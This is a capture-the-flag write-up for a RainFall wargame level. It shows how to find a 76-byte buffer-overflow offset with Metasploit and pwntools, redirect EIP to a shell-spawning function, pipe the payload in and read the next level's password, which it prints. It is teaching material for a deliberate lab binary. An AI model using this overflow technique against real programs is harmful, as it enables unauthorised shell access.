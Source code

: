 
level1@RainFall:~$ ./level1 <<< $(python -c 'print("a" * 76)')
Illegal instruction (core dumped)



 the first step in exploitation is to find out the offset. Metasploit aids this process by using two different tools, called pattern_create and pattern_offset.

 in order to build a working exploit, we need to figure out the exact amount of these characters. Metasploit's inbuilt tool called the pattern_create does this for us in no time. It generates patterns that can be supplied instead of A characters and, based on the value which overwrote the EIP register, we can easily figure out the exact number of bytes using its counterpart tool pattern_offset.
- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318


./pattern create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

this output can be fed to the vulnerable application as follows:
(gdb) run <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () 

We have 0x63413563 as the address that overwrote EIP register.

Let's figure out the exact number of bytes required to overwrite the EIP with the pattern_offset tool. This tool takes two arguments; the first one is the address and the second one is the length, which was 200 as generated using pattern_create:

./pattern offset 0x63413563 200
76

The exact match is found to be at 76. Therefore, any 4 bytes after 76 characters becomes the contents of the EIP register.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318-320

lets make sure of the above finding:

(gdb) run <<< $(python -c 'print "-" * 76 + "AAAA" ')
Segmentation fault.
0x41414141 in ??

```
The cause of crash was that the application failed to process the address of the next instruction, located at 41414141. The value 41 is the hexadecimal representation of character A. What actually happened is that our input, extending through the boundary of the buffer, went on to overwrite the EIP register. Therefore, since the address of the next instruction was overwritten, the program tried to find the address of the next instruction at 41414141, which was not a valid address. Hence, it crashed.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 316
```

(gdb) info func
All defined functions:
[..]
0x08048444  run

b.Ninja for run func:
```
fwrite {"Good... Wait what?\n"}
return system(/bin/sh)
```
0x08048444 little endian : \x44\x84\x04\x08

all what we need to do is make the EIP point to the addr of run function which runs the shell

python -c 'import struct; print("-" * 76 + struct.pack(">L",0x44840408))' > /tmp/payload

python -c 'print "-" * 76 + "\x44\x84\x04\x08"' > /tmp/test

level1@RainFall:~$ cat /tmp/payload -  | ./level1
Good... Wait what?
pwd
/home/user/level1
cat /home/user/level1/.pass
cat: /home/user/level1/.pass: Permission denied
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77



==
struct = Interpret bytes as packed binary data
struct.pack takes non-byte values (e.g. integers, strings, etc.) and converts them to bytes.
Format Strings
< little-endian
> big-endian


Payload: This is a piece of code that runs at the target after a successful exploitation is done. It defines the actions we want to perform on the target system.

Payloads
To understand what a payload does, let's consider a real-world example. A military unit of a certain country develops a new missile that can travel a range of 500 km at very high speed. Now, the missile body itself is of no use unless it's filled with the right kind of ammunition. Now, the military unit decided to load high explosive material within the missile so that when the missile hits the target, the explosive material within the missile explodes and causes the required damage to the enemy. So, in this case, the high explosive material within the missile is the payload. The payload can be changed based on the severity of damage that is to be caused after the missile is fired.
Similarly, payloads in the Metasploit Framework let us decide what action is to be performed on the target system once the exploit is successful. 

- Metasploit Revealed _ Secrets of the Expert Pentester -  Build your Defense against Complex Attacks-Packt Publishing (2017)

==
to detect the offset u could also use the cyclic script from the pawn tools 

https://github.com/arthaud/python3-pwntools/blob/master/pwnlib/commandline/cyclic.py

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Segmentation fault.

eip value 0x61616174 

hex 0x61616174 to text is: "aaat" but since LSB it's "taaa"

using cyclic again:

cyclic -l taaa

76




